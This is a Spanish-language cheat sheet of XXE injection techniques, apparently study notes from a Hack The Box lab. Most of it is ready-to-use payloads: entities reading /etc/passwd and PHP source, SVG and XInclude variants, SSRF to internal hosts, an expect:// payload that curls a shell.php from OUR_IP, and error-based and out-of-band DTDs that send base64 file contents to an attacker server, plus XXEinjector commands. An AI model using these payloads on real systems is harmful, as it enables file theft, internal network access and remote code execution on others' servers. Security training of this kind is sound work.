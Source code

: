 Siempre agregar las entidades luego de la declaración del XML!!!

### Idenificación

CUando encontramos alguna request que posea un xml, primero vemos si alguno de los datos de la misma se ve reflejado en la response.
Luego inyectamos en ese dato una nueva entidad:

    <!DOCTYPE "nombre" [
      <!ENTITY "variable" "dato de la entidad">
    ]>

Para llamar a la nueva entidad rellenamos el campo del xml con "&variable;" 
Si el formulario es vulnerable mostrará el dato de la entidad, de no serlo mostrará &variable;


#### Leer archivos del sistema:
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "file:///etc/passwd">
        ]>

#### Leer archivos mediante un svg:

#### creamos un svg con el siguiente contenido:


        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

##### Opción2:

        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

#### Obtener el código de la página php:
            <!DOCTYPE email [
          <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
        ]>



#### SSRF
podemos injectar ssrfs en el xml con el fin de alcanzar servicios internos no expuestos.

        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

#### XInclude

De a ratos nos encontramos con sitios que al hacer una request nos piden datos que luego serán parseados en el back-
end para agrergarse a un xml. ¿Cómo las distinguimos? No sabemos, simplemente hay que probar.
Para hacer una xxe, reemplazamos el parámetro que se está enviando por:

        <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

#### RCE:
##### 1)Si el módulo de php expect está instalado y permitido podríamos usar directamente: "expect://'comando'"

##### 2)Podemos generar una injección de una shell:
###### a)creamos la shell.php
###### b)Levantamos un servidor
###### c) inyectamos el siguiente código:
        <?xml version="1.0"?>
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
        ]>
        <root>
        <name></name>
        <tel></tel>
        <email>&company;</email>
        <message></message>
        </root>


#########ssrf



###########################################Lectura avanzada de archivos:

##############CDATA:
Nos permite engañar al backend tomando el contenido como raw:


Ejemplo no aplicable:

<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>

Desde que se prohibió el joined como medio interno, nos vemos obligado a usarlo desde afuera:

LaPorota@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->



################################## ERROR BASED XXE:

Probamos romper el xml en la request para ver como lo resuelve el backend.

Si el error nos brinda información sobre directorios o subdirectorios con rutas podemos:

crear un dtd:
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

y luego referenciarlo desde la request:

<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>




#################################### Blind xxe
################### Out-of-band Data Exfiltration
cramos un xml en nuestro servidor:
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

luego un index.php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

levantamos el servidor php:
php -S 0.0.0.0:8000

inyectamos la entidad:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>

podemos automatizar el ataque con herramientas como xxeinjector:

git clone https://github.com/enjoiz/XXEinjector.git


guardamos la request http que tenemos en burp a un archivo desde el inicio hasta la declaración del xml y agregamos xxeinject ej:
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT

luego corremos la herramienta con:
LaPorota@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter


